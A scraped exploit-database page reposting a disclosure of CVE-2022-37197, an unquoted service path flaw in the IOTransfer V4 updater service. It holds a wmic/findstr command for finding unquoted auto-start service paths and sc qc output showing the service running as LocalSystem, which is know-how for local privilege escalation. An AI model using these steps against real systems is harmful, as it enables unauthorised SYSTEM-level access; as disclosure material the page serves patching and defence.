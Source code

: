 ```yaml
---
title: IOTransfer 4 Unquoted Service Path exploit
url: https://sploitus.com/exploit?id=PACKETSTORM:169812&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2022-11-12
fetch_date: 2025-10-03T22:29:21.441954
---
```


# IOTransfer 4 Unquoted Service Path exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for IOTransfer 4 Unquoted Service Path CVE-2022-37197

2022-11-11 | CVSS 0.6

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=PACKETSTORM:169812
# Exploit Title: IOTransfer V4 - Unquoted Service Path
# Exploit Author: BLAY ABU SAFIAN (Inveteck Global)
# Discovery Date: 2022-28-07
# Vendor Homepage: http://www.iobit.com/en/index.php
# Software Link: https://iotransfer.itopvpn.com/download/
# Tested Version: V4
# Vulnerability Type: Unquoted Service Path
# Tested on OS: Microsoft Windows Server 2019 Standard Evaluation CVE-2022-37197
# Step to discover Unquoted Service Path:

C:\>wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """

IOTransfer Updater IOTUpdaterSvc C:\Program Files (x86)\IOTransfer\Updater\IOTUpdater.exe
Auto

C:\>sc qc IOTUpdaterSvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: IOTUpdaterSvc
TYPE : 10 WIN32_OWN_PROCESS
START_TYPE : 2 AUTO_START
ERROR_CONTROL : 1 NORMAL
BINARY_PATH_NAME : C:\Program Files (x86)\IOTransfer\Updater\IOTUpdater.exe

LOAD_ORDER_GROUP :
TAG : 0
DISPLAY_NAME : IOTransfer Updater
DEPENDENCIES :
SERVICE_START_NAME : LocalSystem

C:\>systeminfo

OS Name: Microsoft Windows Server 2019 Standard Evaluation
OS Version: 10.0.17763 N/A Build 17763
OS Manufacturer: Microsoft Corporation
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)